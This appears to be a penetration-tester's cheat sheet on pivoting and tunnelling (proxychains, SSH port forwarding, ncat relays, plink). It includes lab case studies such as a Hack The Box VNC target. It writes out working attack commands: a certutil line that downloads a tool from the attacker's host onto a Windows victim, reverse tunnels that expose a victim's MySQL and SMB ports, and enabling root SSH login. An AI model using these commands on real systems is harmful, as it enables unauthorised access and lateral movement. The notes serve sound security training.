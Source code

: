### Proxytunnel

#### use squid proxy
- proxytunnel -p 192.168.0.115:3128 -d 127.0.0.1:22 -a 1234
#### e.g:
- ssh name@127.0.0.1 -p 1234

### Proxychains 
#### use squid proxy
- nano /etc/proxychains.conf
#### add:
- http 192.168.213.141 3128

#### scan ports via tunnel
- proxychain nmap -sT -p 22 127.0.0.1

#### ssh login via proxychains
- proxychains ssh name@127.0.0.1

### SSH port forwarding
In case exploit can not be run locally on target machine, you can frowarded the port via SSH to your local machine
```
ssh -R [local_port]:127.0.0.1:[service_port] [username]@[victim_ip]

or

ssh -L [your_local_port]:127.0.0.1:[service_port] [username]@[victim_ip]
```

Exploit code can be run on local machine

#### case study
##### on victim machine
- check service port *netstat -nl*
- ssh -R 4444:127.0.0.1:3306 root@192.168.100.104

##### on yours kali machine
mysql -u root -h 127.0.0.1 -P 4444

#### case study 2 (TightVNC)
```
- check ps -aux
  result: Xvnc :1 -desktop X -httpd /usr/../tightvnc/classes
- check netstat -an
  result: 127.0.0.1.5901
- port forwarding from local machine
  ssh -L 5901:127.0.0.1:5901 username@10.10.10.84
  pass password
- vncviewer 127.0.0.1:5901 -passwd secret_file_with_password
```

#### case study 3 (htb poison vnc)
```
on your machine:
ssh -L 5902:localhost:5901 charix@10.10.10.84
in second window:
vncviewer -passwd secret 127.0.0.1:5902
```

### Port forwarding via ncat
- ncat -u -l  [port1] -c  'ncat -u -l [port2]'
  - Now all the connections for port [port1] will be forwarded to port [port2]
  
  
## Plink
- Download Plink.exe

- download plink on windows
- cd user/filder
- certutil -urlcache -f http://[your_ip]/plink.exe plink.exe
- edit /etc/ssh/sshd_config
- uncomment PermitRootLogin and set as yes
 
on windows machine 
plink.exe -l root -pw <pass> -R 445:127.0.0.1:445 <your_linux_ip>

